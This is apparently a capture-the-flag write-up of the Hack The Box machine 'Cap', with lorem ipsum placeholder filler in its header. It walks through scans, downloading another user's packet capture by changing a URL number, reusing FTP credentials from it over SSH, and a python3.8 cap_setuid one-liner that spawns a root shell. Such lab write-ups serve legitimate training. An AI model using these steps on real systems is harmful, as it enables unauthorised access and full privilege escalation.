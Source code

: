 ```yaml
---
title: Cap - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-06-18
image: images/cap_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/cap_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/cap]# nmap -Pn -n -sCV --open 10.10.10.245
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
  |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
  |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
  80/tcp open  http    gunicorn
  | fingerprint-strings:
  |   FourOhFourRequest:
  |     HTTP/1.0 404 NOT FOUND
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:58 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Content-Length: 232
  |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
  |     <title>404 Not Found</title>
  |     <h1>Not Found</h1>
  |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
  |   GetRequest:
  |     HTTP/1.0 200 OK
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:52 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Content-Length: 19386
  |     <!DOCTYPE html>
  |     <html class="no-js" lang="en">
  |     <head>
  |     <meta charset="utf-8">
  |     <meta http-equiv="x-ua-compatible" content="ie=edge">
  |     <title>Security Dashboard</title>
  |     <meta name="viewport" content="width=device-width, initial-scale=1">
  |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
  |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
  |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
  |     <link rel="stylesheet" href="/static/css/themify-icons.css">
  |     <link rel="stylesheet" href="/static/css/metisMenu.css">
  |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
  |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
  |     <!-- amchar
  |   HTTPOptions:
  |     HTTP/1.0 200 OK
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:52 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Allow: OPTIONS, GET, HEAD
  |     Content-Length: 0
  |   RTSPRequest:
  |     HTTP/1.1 400 Bad Request
  |     Connection: close
  |     Content-Type: text/html
  |     Content-Length: 196
  |     <html>
  |     <head>
  |     <title>Bad Request</title>
  |     </head>
  |     <body>
  |     <h1><p>Bad Request</p></h1>
  |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
  |     </body>
  |_    </html>
  |_http-server-header: gunicorn
  |_http-title: Security Dashboard


DIRB
+ http://10.10.10.245/data (CODE:302|SIZE:208)
+ http://10.10.10.245/ip (CODE:200|SIZE:17451)
+ http://10.10.10.245/netstat (CODE:200|SIZE:30019)

NIKTO
+ Allowed HTTP Methods: OPTIONS, GET, HEAD

User - Nathan


1. Visiting the HTTP we instantly see user 'Nathan', and a few IP functions - netstat, ifconfig and a capture counter. The capture
have all it's values to 0, and whatever we do towards the host they don't move.

Looking at the url, http://10.10.10.245/data/1, we can change the value '1' to '0' in hope to find a earlier batch of data.
This work and we can see that the counters are now 72,69,69,0. Download the .pcap file and go through it in Wireshark.


2. Once opened the .pcap we can quickly see requests and responses regarding user Nathan. Right click, Follow > TCP Stream and we
get this output:

  220 (vsFTPd 3.0.3)
  USER nathan
  331 Please specify the password.
  PASS Buck3tH4TF0RM3!
  230 Login successful.
  SYST
  215 UNIX Type: L8
  PORT 192,168,196,1,212,140
  200 PORT command successful. Consider using PASV.
  LIST
  150 Here comes the directory listing.
  226 Directory send OK.
  PORT 192,168,196,1,212,141
  200 PORT command successful. Consider using PASV.
  LIST -al
  150 Here comes the directory listing.
  226 Directory send OK.
  TYPE I
  200 Switching to Binary mode.
  PORT 192,168,196,1,212,143
  200 PORT command successful. Consider using PASV.
  RETR notes.txt
  550 Failed to open file.
  QUIT
  221 Goodbye.

Sweet, we now have creds to vsFTP! Nathan:Buck3tH4TF0RM3!
Before digging deeper into vsFTP, I always tend to try the creds towards SSH incase that would give us a easy user.

  [root:/git/htb/cap]# ssh nathan@10.10.10.245                                                                                      (master✱)
  nathan@10.10.10.245's password: Buck3tH4TF0RM3!
    nathan@cap:~$ whoami
      nathan
    nathan@cap:~$ cat user.txt
      ae160eb3719c987efe6e0eebaf2a6574

Easy user, great!


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As usual, start with the easy 'sudo -l' to see if we can get easy root.

  nathan@cap:~$ sudo -l
    [sudo] password for nathan:
    Sorry, user nathan may not run sudo on cap.

No luck, after some manual enumeration I couldn't find anything obvious - so fire up linpeas.

  nathan@cap:/dev/shm$ ./linpeas.sh
    ..
    [+] Capabilities
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

Capabilities is new to me, something I've never heard about and fits the name of the box 'Cap'.
Reading about Capabilities we find:
  > Capabilities are useful when you want to restrict your own processes after performing privileged operations
  > (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious
  > commands or arguments which are then run as root.

  CAP_SETUID =            Allow changing of the UID (set UID of root in you process)
  CAP_NET_BIND_SERVICE =  Bind a socket to internet domain privileged ports
  CAP_NET_RAW =           Use RAW and PACKET sockets (sniff traffic)

With this knowledge, python3.8 has the capabilities to setuid to 0, giving us root access.
We can do this in a simple one-liner.

  nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
  root@cap:~# id && cat /root/root.txt
  uid=0(root) gid=1001(nathan) groups=1001(nathan)
  cd9a6e65fc62abbc53c91c6f7b803822


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Exploit Capabilities:
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#malicious-use
